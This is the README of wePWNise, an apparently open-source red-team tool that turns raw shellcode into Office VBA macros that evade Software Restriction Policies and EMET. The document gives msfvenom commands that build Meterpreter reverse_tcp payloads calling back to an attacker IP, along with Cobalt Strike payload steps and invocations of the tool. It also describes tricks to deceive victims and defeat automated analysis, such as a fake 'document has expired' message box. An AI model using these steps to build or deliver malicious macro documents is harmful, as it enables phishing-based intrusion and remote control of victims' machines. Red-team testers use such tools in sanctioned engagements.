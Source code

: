 #wePWNise

wePWNise is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wePWNise integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

##Prerequisites

* Python termcolor package. To install run: pip install termcolor

##Command line arguments

To start using wePWNise, first take a look at the options it supports:

```
usage: wepwnise.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--endmsgbox] [--msg <window_message>] [--endmsg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True. 
  --endmsgbox           Present messagebox on macro execution completion.   
                        Default is True. 						
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
  --endmsg <window_message>   
                        Custom message to present once the macro has completed if --endmsgbox is   
                        set to True
```

wePWNise requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

In order to lesson suspicion with word document macros, a message box can be displayed on completion of code execution. The text of the message box can be altered by defining its value in the --endmsg parameter, for example "Your document has expired". To disable this functionality set the --endmsgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wePWNise reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. 


##Usage examples

The following sections describe some basic usage examples of wePWNise.

###Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wePWNise to the generated payloads and direct the output to msf_wepwn.txt

`$ wepwnise.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

###Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wePWNise to generate the VBA code.

`$ wepwnise.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


###Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wePWNise expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wepwnise.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wePWNise's -i86 command line paramenter.

##License

wePWNise is released under a 3-clause BSD License and the original project is maintained by [MWR InfoSecurity](https://mwrinfosecurity.com).
Some minor improvements have been made by [KPMG LLP] (http://www.kpmg.co.uk/cyber).

##Credits
This tool was originally developed by Vincent Yiu ([@vysecurity](https://twitter.com/vysecurity)).
Additional KPMG updates developed by Konrads Smelkovs and Mathew Ettelaie.